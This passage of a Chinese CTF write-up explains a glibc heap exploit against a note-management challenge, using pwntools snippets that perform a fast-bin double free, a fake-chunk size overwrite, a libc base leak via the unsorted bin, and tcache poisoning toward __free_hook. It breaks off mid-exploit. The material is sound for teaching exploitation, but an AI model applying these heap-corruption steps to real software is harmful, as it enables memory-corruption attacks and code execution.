   可以看到，此时在**base + 0x30**上，已经有了一个fake chunk(其之后会更改大小，因此不需要在伪造前后chunk)，则下面我们只需要进行**double free**，并修改**fast bin**的指向即可——即释放`idx = 1`的chunk，如下所示
  ```python
        node_del(r, 1)                      #double free
```

  其内存布局已经构成**double free**的局面，如下所示
  ![内存布局3](内存布局3.PNG)

  此时，我们将fake chunk挂在**fast bin**的链上即可，代码如下
  ```python
      node_add(r, 0x78, p64(chunk_base + 0x30), 'a\n')             #1 chunk_base + 0x80
```

  其fake chunk已经被插入到**fast bin**链上，如下所示
  ![内存布局4](内存布局4.PNG)

  然后，需要将该fake chunk分配出来，并通过修改**base**对应的chunk数据，从而覆写fake chunk的大小，最后将其释放到**unsorted bin**中即可，相关代码如下所示
  ```python
       node_add(r, 0x78, 'a', 'a\n')           #2 chunk_base + 0x80 * 3 
        node_add(r, 0x78, 'a', 'a\n')           #3 chunk_base + 0x80 * 4
        node_add(r, 0x78, 'a', 'a\n')           #4 chunk_base + 0x80 * 5
        node_add(r, 0x78, 'a', 'a\n')           #5 chunk_base + 0x80 * 6
        node_add(r, 0x78, 'a', 'a\n')           #6 chunk_base + 0x80 * 7
        node_add(r, 0x78, 'a', 'a\n')           #7 chunk_base + 0x80 * 8        tcache empty


        node_add(r, 0x78, 'a', 'a\n')           #8 chunk_base + 0x80
        node_add(r, 0x78, p64(0) * ((0x80 - 0x30 - 0x10) / 0x8) + p64(0) + p64(0x81), 'a\n')           #9 chunk_base + 0x30
```

  此时，`idx = 0`到`idx = 9`上都被分配了相关的chunk，此时一方面需要更改**base**对应的chunk数据，并重新覆写fake chunk大小；另一方面，需要将fake chunk释放到**unsorted bin**中，并且通过该值获取**libc**基址，代码如下所示
  ```python
        node_del(r, 8)                          #to show unsorted_bin in index9
        node_del(r, 0)

        node_add(r, 0x78, p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x471), 'a\n')    #0 chunk_base                  change the chunk size in index8
        node_del(r, 9)
        node_add(r, 0x78, 'a', 'a' * 0x30)                                               #8 chunk_base + 0x80       change the flag in index8
        info = node_list(r).split('Note 9:\n  Data: ')[1].split('\n  Desc: ')[0]
        lib_base = u64(info.ljust(8, '\x00')) + 0x7fdb734b0000 - 0x7fdb734a7be0
        log.info('lib_base => %x'%lib_base)
```

  此时其内存布局如下所示
  ![内存布局5](内存布局5.PNG)

  目前，我们已经获取了**libc**的基址了，并且我们可以通过修改fake chunk的值，从而覆盖其他正常**tcache**的值，从而修改**tcache**的链的指向，则我们只需要将**__free_hook**插入到**tcache**链上即可，代码如下所示
  ```python
        node_del(r, 0)
        node_add(r, 0x78, p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x81), 'a\n')                              #0 chunk_base
        node_del(r, 1)
        node_add(r, 0x78, p64(0) * 4 + p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21), 'a\n')                 #1 chunk_base + 0x80




        node_del(r, 3)
        node_del(r, 2)
        node_del(r, 1)
  ```